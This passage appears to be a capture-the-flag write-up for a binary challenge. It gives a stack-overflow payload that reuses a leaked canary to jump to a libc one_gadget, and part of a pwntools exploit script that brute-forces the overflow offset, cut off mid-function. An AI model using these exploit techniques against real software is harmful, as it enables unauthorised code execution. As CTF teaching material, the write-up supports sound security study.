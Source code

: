 Some restrictions should be satisfied first, luckily the first one is.

Final payload looks like this:
```python
payload = junk + canary + stack_alignment + one_gadget
```

⚠️ ***We did not need to leak a PIE address for `one_gadget`***

```python
def one_gadget(r, offset, canary):
  og = [0x4f3d5, 0x4f432, 0x10a41c]
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef)
  payload += p64(og[0] + libc.address)
  r.sendlineafter(">", payload)
  r.interactive()
```

There is PoC for the `ret2libc` attack that does not work and the successful `one_gadget` attack.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge9" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF("./libc.so.6") 

LOCAL = False

prompt = ">"

def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A")
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.5)
    
    # If the exit code == -6 (SIGABRT)
    if r.poll() == -6:
      if i%8==0:
        print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i), "green"))
        r.close()
        return i
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()
  exit()

def ret2libc(r, prompt, offset, canary):
```